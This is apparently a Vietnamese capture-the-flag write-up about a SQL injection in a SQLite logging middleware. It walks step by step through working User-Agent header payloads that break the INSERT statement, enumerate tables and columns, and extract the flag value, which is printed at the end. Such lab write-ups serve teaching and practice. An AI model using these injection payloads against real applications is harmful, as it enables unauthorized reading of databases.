






<h1>Logger Middleware</h1>

```
6 trường: IP, User-agent, Referer, Url, Cookie, Timestamp được ghi vào database mỗi khi có người truy cập

Database: Sqlite
```


### Thay đổi dữ liệu của <b>User-agent</b> ta nhận được lỗi
```
User-Agent: Mozilla'
```


#### Truy vấn có cú pháp:
```sql
INSERT INTO logger (ip_address, user-agent, referer, url, cookie, created_at)
VALUES ('ip_address', 'user-agent', 'referer', 'url', 'cookie', 'created_at');
```
### Cách Bypass:
```sql
INSERT INTO logger (ip_address, user-agent, referer, url, cookie, created_at)
VALUES ('ip_address', 'user-agent', (select 'i am ngn'), null, null, null)/*;
```
```
user-agent: Mozilla',(select 'i am ngn'),null,null,null)/*
```


### Tìm tên bảng chứa flag.
```
user-agent: Mozilla',(select tbl_name as table_name from sqlite_schema),null,null,null)/*
=> Bảng đầu tiên tìm được 1 bảng là logger.
```

```
user-agent: Mozilla',(select tbl_name as table_name from sqlite_schema),null,null,null) limit 1,1/*
=> Bảng tiếp theo là flag.
```


### Tìm tên cột chứa flag
```
User-Agent: Mozilla',(select name from pragma_table_info('flag') limit 1,1),null,null,null)/*
=> Tìm được tên cột là: secr3t_flag
```


### Tìm flag

```
User-Agent: Mozilla',(select secr3t_flag from flag),null,null,null)/*
```


```
Flag: CHH{L0G9eR_5QL1_in_uPdaTe_2760699c35be174900981a88f9bfaa43}	
```